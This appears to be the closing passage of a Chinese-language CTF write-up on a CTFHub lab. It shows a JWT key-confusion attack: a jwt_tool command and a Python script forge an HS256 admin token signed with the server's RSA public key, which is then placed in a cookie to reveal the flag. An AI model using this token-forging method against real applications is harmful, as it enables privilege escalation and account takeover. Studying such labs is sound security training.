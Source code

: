 工具得到 Token `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImdiYiIsInJvbGUiOiJhZG1pbiJ9.Dyk-advgcsF5XxDiylPre1y-jtiBuRXjcEOrXsGoDsw`

```bash
python .\jwt_tool.py -X k -pk 'public.pem' -I -pc role -pv "admin" -hc alg -hv "HS256" eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImdiYiIsInJvbGUiOiJndWVzdCJ9.BxF0usOdTAwAfh89Su9CBmpZsQ-7Nag8im-UUj4uh24Mel0CLHp24QN3hFW4O91R353GYnR6xFHtcGq90WePqetmsEJai_yojnFWtnmdv_-ulfY_RIVnAF2MQLbLAeQrxEHPiaHdrWqEzU82bJ3bTG087tTfbkH-RJnMTy9ucqBRLMsI5yKShY8AoFOZEhf-awAfpfUwS5ZTTcPO6lHk4itbRG1icdbLFqyyqi2p_VJonM6PWUJxUaeKpYMkT_-6RZT30QbURNNH4xSsOPPQgv42dR4cGWiSROrKLPlVvJzxxOguc6tLjAXyb_IcBHHOrh9vUZmCR3HcBwszpl2bCQ
```

脚本得到 Token `eyJ0eXAiOiAiSldUIiwgImFsZyI6ICJIUzI1NiJ9.eyJ1c2VybmFtZSI6ICJhZG1pbiIsICJyb2xlIjogImFkbWluIn0.X5voM3YG8KMiy0Am9qE4jcI46UzcHbjX8ajBoM5qPYM`

```python
import hmac
import hashlib
import base64


file = open('public.pem')
key = file.read()

# Paste your header and payload here
header = '{"typ": "JWT", "alg": "HS256"}'
payload = '{"username": "admin", "role": "admin"}'

# Creating encoded header
encodeHBytes = base64.urlsafe_b64encode(header.encode("utf-8"))
encodeHeader = str(encodeHBytes, "utf-8").rstrip("=")

# Creating encoded payload
encodePBytes = base64.urlsafe_b64encode(payload.encode("utf-8"))
encodePayload = str(encodePBytes, "utf-8").rstrip("=")

# Concatenating header and payload
token = (encodeHeader + "." + encodePayload)

# Creating signature
sig = base64.urlsafe_b64encode(hmac.new(bytes(key, "UTF-8"), token.encode("utf-8"), hashlib.sha256).digest()).decode("UTF-8").rstrip("=")

print(token + "." + sig)
```

直接打开开发者工具切换至 Application 选项卡，找到 Storage 中 Cookies 替换 token 值，接着 F5 刷新页面即可输出 Flag `ctfhub{c5e5c91dde1cdf45109a2d90}`。

## 总结

阅读众多实际漏洞案例，其中弱密钥、密钥泄露、不校验签名、信息泄露这些问题看到过出现过，像更改 Header 不使用签名，暂时没看市面上有靶场。测试方面在下次遇到 JWT 根据 jwt-tools 工具和其 WIKI 测试方法，将所有已知漏洞都试一遍，避免遗漏。
